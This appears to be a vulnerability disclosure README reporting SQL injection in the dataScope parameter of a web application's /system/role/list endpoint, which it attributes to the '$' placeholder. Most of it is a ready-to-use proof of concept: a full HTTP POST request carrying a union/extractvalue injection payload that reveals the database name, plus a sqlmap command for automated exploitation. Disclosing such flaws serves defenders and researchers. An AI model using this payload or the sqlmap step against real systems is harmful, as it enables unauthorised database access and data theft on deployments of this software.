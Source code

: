 SQL injection exists in the dataScope parameter of the /system/role/list interface of the system.  
The cause of this vulnerability is the use of the $ placeholder symbol.  
![image](https://github.com/biantaibao/octopus_SQL/assets/131763503/098bbd63-78d1-425f-af06-b9717e33d153)  
Find the front-end interface of the interface and click search in the role management.  
![image](https://github.com/biantaibao/octopus_SQL/assets/131763503/ae83c28a-d6c6-4af9-9e5a-07a579672716)  
poc:   
POST /system/role/list HTTP/1.1  
Host: 127.0.0.1:9999  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0  
Accept: application/json, text/javascript, */*; q=0.01  
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2  
Accept-Encoding: gzip, deflate  
Content-Type: application/x-www-form-urlencoded  
X-Requested-With: XMLHttpRequest  
Content-Length: 217   
Origin: http://127.0.0.1:9999  
Connection: close  
Referer: http://127.0.0.1:9999/system/role  
Cookie: JSESSIONID=d2cf469f-6b72-4685-b811-2d8b45623eeb  

roleName=11&roleKey=11&status=&params%5BbeginTime%5D=&params%5BendTime%5D=&pageSize=10&pageNum=1&orderByColumn=roleSort&isAsc=asc&params[dataScope]=union select 1,extractvalue(1,concat(0x7e,(select database()))),3 --+    

Successfully viewed database。  
![image](https://github.com/biantaibao/octopus_SQL/assets/131763503/510e3b9f-ab71-43b9-b210-b6dfac68ec84)  
![image](https://github.com/biantaibao/octopus_SQL/assets/131763503/ba66d3fe-e99f-4b6e-895d-829fd5688732)  
sqlmap command：python sqlmap.py -r sql.txt   
![image](https://github.com/biantaibao/octopus_SQL/assets/131763503/044751fb-abf9-4b32-ae98-ffe3a6cd53bb)






